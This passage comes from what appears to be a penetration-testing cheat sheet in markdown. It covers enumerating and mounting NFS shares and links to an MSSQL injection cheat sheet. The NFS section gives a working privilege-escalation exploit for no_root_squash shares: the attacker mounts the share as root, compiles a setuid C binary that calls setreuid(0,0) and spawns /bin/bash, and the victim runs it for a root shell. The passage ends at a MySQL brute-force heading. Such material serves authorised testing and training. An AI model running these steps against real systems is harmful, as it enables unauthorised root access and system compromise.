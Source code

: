 ### Manual exploit

```
Cheatsheet :
	- https://www.asafety.fr/mssql-injection-cheat-sheet/
```

---

## NFS - 2049

### Show Mountable NFS Shares

```
showmount -e <IP>
nmap --script=nfs-showmount -oN mountable_shares <IP>
```

```
sudo mount -v -t nfs <IP>:<SHARE> <DIRECTORY>
sudo mount -v -t nfs -o vers=2 <IP>:<SHARE> <DIRECTORY>
```

### NFS misconfigurations

```
# List exported shares
cat /etc/exports
```

If you find some directory that is configured as no_root_squash/no_all_squash you may be able to privesc.

```
# Attacker, as root user

mkdir <DIRECTORY>
mount -v -t nfs <IP>:<SHARE> <DIRECTORY>
cd <DIRECTORY>
echo 'int main(void){setreuid(0,0); system("/bin/bash"); return 0;}' > pwn.c
gcc pwn.c -o pwn
chmod +s pwn

# Victim

cd <SHARE>
./pwn # Root shell
```

---

## MYSQL - 3306

### Brute force
